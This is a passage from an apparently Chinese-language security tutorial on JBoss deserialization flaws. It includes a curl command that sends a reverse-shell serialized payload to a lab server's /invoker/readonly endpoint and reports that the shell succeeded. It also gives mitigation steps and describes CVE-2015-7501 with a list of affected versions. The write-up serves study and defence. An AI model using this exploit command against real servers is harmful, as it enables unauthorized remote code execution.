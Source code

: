     
    
    curl http://192.168.10.154:8080/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser  
    

![]()image-20210823091400586

成功反弹shell。

#### 安全防护

1.升级新版本。2.删除http-invoker.sar 组件，路径如下

    
    
    C:\jboss-6.1.0.Final\server\default\deploy\http-invoker.sar  
    

![](https://gitee.com/fuli009/images/raw/master/public/20210830201005.png)image-20210823093407062

3.添加如下代码至 http-invoker.sar 下 web.xml的security-constraint 标签中,用于对 http invoker
组件进行访问控制。

    
    
    <url-pattern>/*</url-pattern>  
    

路径为：

    
    
    C:\jboss-6.1.0.Final\server\default\deploy\http-invoker.sar\invoker.war\WEB-INF  
    

![](https://gitee.com/fuli009/images/raw/master/public/20210830201006.png)image-20210823093730532![](https://gitee.com/fuli009/images/raw/master/public/20210830201007.png)image-20210823093707651

### 2.JBoss JMXInvokerServlet 反序列化漏洞（CVE-2015-7501）

#### 漏洞原理

JBoss中/invoker/JMXInvokerServlet路径对外开放，JBoss的jmx组件支持反序列化。JBoss在`/invoker/JMXInvokerServlet`请求中读取了用户传入的对象，然后我们利用Apache
Commons Collections中的Gadget执行任意代码。

#### 影响版本

    
    
    JBoss Enterprise Application Platform 6.4.4,5.2.0,4.3.0_CP10  
    JBoss AS (Wildly) 6 and earlier  
    JBoss A-MQ 6.2.0  
    JBoss Fuse 6.2.0  
    JBoss SOA Platform (SOA-P) 5.3.1  
    JBoss Data Grid (JDG) 6.5.0  
    JBoss BRMS (BRMS) 6.1.0  
    JBoss BPMS (BPMS) 6.1.0  
    JBoss Data Virtualization (JDV) 6.1.0  
    JBoss Fuse Service Works (FSW) 6.0.0  
    JBoss Enterprise Web Server (EWS) 2.1,3.0  
    